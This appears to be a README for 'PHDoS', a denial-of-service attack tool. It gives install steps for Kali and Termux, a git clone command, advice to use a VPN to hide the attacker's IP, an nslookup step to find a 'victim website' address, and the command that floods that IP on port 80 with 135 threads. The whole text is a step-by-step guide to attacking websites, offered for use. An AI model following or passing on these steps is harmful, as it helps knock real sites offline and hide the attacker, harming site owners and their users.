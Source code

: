 Kali & Termux Compatible<br>
Requirements:<br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

Installation & Usage:<br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
example:<br>
$ python3 phdos.py -s xx.xxx.xxx.xxx -p 80 -t 135<br>

